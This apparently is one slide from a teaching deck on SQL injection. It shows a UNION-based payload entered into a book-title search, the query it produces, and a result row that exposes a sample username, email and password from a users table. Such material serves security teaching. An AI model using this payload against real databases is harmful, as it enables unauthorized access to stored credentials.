

# Example cont.
Try concatenating sub-queries:

1984’ UNION SELECT (SELECT username FROM users)||':'||(SELECT email FROM users)||':'||(SELECT password FROM users), NULL--

Which results in:
SELECT author, year FROM books WHERE title = ‘1984’ UNION SELECT (SELECT username FROM users)||':'||(SELECT email FROM users)||':'||(SELECT password FROM users), NULL--’
Which returns:

| Author | Year |
| --- | --- |
| George Orwell | 1949 |
| bob:bob@gmail.com:PugsAreTheBest11 | NULL |